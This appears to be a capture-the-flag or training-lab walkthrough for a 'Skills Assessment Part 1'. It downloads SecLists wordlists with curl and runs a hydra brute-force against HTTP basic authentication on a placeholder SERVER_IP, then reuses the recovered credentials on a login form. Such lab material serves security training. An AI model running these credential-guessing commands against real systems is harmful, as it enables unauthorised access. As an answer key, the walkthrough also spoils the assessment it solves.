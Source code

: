 # Skills Assessment Part 1

### What is the password for the basic auth login?

**Step 1** - Download the wordlists:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt

  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Brute-force the login basic authentication:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT      
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

**Step 1** - Use the founded credentials on the login form:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
